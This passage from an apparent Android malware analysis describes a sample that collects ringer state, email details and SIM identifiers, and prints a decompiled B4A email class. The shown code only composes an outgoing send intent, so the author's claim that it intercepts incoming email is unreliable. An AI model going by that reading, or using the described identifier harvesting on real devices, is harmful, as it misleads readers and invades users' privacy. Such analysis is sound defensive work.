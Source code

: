 We go for `phone` class. The malware collects more info about the victim's phone such as the state of the phone if it's `RINGER_SILENT` or `RINGER_NORMAL` and more. 
The malware will try to intercept the Emails which comes to the victim's phone. The malware collects the sender email, receiver email and body and more.

```cs
@BA.ShortName("Email")
    /* loaded from: classes-dex2jar.jar:anywheresoftware/b4a/phone/Phone$Email.class */
    public static class Email {
        public String Subject = "";
        public String Body = "";
        public List To = new List();
        public List CC = new List();
        public List BCC = new List();
        public List Attachments = new List();

        public Email() {
            this.To.Initialize();
            this.CC.Initialize();
            this.BCC.Initialize();
            this.Attachments.Initialize();
        }

        private Intent getIntent(boolean z) {
            Intent intent = new Intent("android.intent.action.SEND_MULTIPLE");
            intent.setType(z ? "text/html" : "text/plain");
            intent.putExtra("android.intent.extra.EMAIL", (String[]) this.To.getObject().toArray(new String[0]));
            intent.putExtra("android.intent.extra.CC", (String[]) this.CC.getObject().toArray(new String[0]));
            intent.putExtra("android.intent.extra.BCC", (String[]) this.BCC.getObject().toArray(new String[0]));
            intent.putExtra("android.intent.extra.SUBJECT", this.Subject);
            intent.putExtra("android.intent.extra.TEXT", z ? Html.fromHtml(this.Body) : this.Body);
            ArrayList<? extends Parcelable> arrayList = new ArrayList<>();
            for (Object obj : this.Attachments.getObject()) {
                if (obj instanceof Uri) {
                    arrayList.add((Uri) obj);
                } else {
                    arrayList.add(Uri.fromFile(new java.io.File((String) obj)));
                }
            }
            if (arrayList.size() == 1) {
                intent.putExtra("android.intent.extra.STREAM", arrayList.get(0));
                intent.setAction(IntentWrapper.ACTION_SEND);
            } else if (arrayList.size() > 1) {
                intent.putParcelableArrayListExtra("android.intent.extra.STREAM", arrayList);
            }
            return intent;
        }
```
Then the malware will collect info about SIM such as `Sim Serial Number`, `Device Id`, `Subscriber Id`. 
